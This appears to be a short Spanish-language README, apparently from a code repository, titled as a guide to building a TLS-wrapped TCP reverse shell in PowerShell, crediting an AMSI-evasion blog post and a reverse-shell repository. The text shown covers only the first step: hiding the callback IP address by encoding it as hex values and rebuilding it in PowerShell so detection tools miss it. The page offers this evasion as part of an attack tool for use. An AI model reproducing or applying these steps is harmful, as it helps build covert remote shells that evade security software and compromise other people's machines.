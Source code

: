 ## **TCP Reverse Shell mediante TLS en Powershell**

Todos los agradecimientos a estos dos enlaces, esto no es más que casi un copia y pega:

https://0xdarkvortex.dev/index.php/2019/07/17/red-team-ttps-part-1-amsi-evasion/

https://github.com/3v4Si0N/HTTP-revshell

**1.- Ofuscar la IP**

Básicamente se trata de crear los valores en hexadecimal:

```
printf "%x,%x,%x,%x\n" 192 168 11 34
c0,a8,b,22
```

```powershell
$px = "c0","a8","b","22"
$p = ($px | ForEach { [convert]::ToInt32($_,16) }) -join '.'
```
 
